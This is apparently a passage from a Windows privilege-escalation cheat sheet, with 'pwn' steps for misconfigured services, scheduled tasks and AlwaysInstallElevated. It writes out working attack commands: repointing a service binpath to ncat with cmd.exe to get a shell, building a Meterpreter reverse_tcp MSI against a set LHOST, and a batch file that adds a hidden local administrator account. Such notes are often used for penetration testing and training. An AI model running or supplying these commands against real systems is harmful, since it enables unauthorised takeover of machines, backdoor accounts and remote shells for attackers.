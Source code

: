 1. Stop the service

2. Pwn the service
- Remote shell:
```
sc config vuln_service binpath= "C:\<path>\ncat.exe -nv 127.0.0.1 1337 -e C:\Windows\System32\cmd.exe"
```

- Add a local admin:
Edit and compile https://github.com/bik3te/Scripts/blob/master/adduser.c
```
sc config vuln_service binpath= "C:\<path>\get_admin.exe"
```

3. Start service

### Scheduled tasks
- Included in PowerSploit/PowerUp (https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Included in BeRoot (https://github.com/AlessandroZ/BeRoot)
1. Check for Scheduled tasks (Task Scheduler (Local) -> Task Scheduler Library -> Microsoft -> etc.)
```
schtasks /query /fo LIST /v
```

2. Pwn if there is one which runs as NT-SYSTEM and the executable is within a writable folder... (Just replace the exe with your payload)

### AlwaysInstallElevated
- Included in PowerSploit/PowerUp (https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Included in BeRoot (https://github.com/AlessandroZ/BeRoot)
1. Check if AlwaysInstallElevated is set
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

2. Package an MSI exploiting the shitty configuration
- From Linux
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f msi > pwn.msi
```

- From Windows (Bat-to-exe-Converter.exe required)
Create lulz.bat:
```
net user w00t BlaBlouf7273! /add
net localgroup Administrators w00t /add
```

Use Bat-to-exe-Converter (check Invisible Application) -> Compile
In Advanced Installer:
```
Import -> MSI from Exe(s)
Silent Installation
Leave the Programs and Features
```
